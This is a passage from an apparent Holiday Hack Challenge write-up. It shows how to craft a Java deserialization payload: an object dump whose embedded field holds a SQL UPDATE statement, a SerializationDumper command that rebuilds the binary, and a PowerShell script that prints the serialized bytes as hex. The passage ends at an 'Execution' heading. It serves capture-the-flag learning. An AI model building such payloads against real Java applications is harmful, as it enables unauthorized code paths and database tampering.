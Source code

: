 ```
    classdata
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)true - 0x01
          isUpdate
            (boolean)true - 0x01
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 52 - 0x00 34
                Value - UPDATE pointing_mode SET numerical_mode=1 WHERE id=1 - 0x55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f64653d312057484552452069643d31
```
  
Next, I saved it as SerializationDump.txt and ran the following:

```java
java -jar SerializationDumper-v1.13.jar -b SerializationDump.txt rebuilt.bin
```

Now that I have the rebuilt.bin serialized file, I just need the hex representation for that so I do that with PowerShell:

```powershell
# Get the file path
$filePath = "$env:USERPROFILE\Documents\HolidayHackChallenge\diversion\rebuilt.bin"

# Read the content of the file as a byte array
$fileBytes = Get-Content -Path $filePath -Encoding Byte

# Convert the byte array to a hex string
$hexString = $fileBytes | ForEach-Object { $_.ToString("X2") }

$trueString = ""
foreach ($element in $hexString) {
    $trueString += $element
}

Write-Output $trueString

<#
Output:
ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174003455504441544520706F696E74696E675F6D6F646520534554206E756D65726963616C5F6D6F64653D312057484552452069643D31
#>
```

### Execution
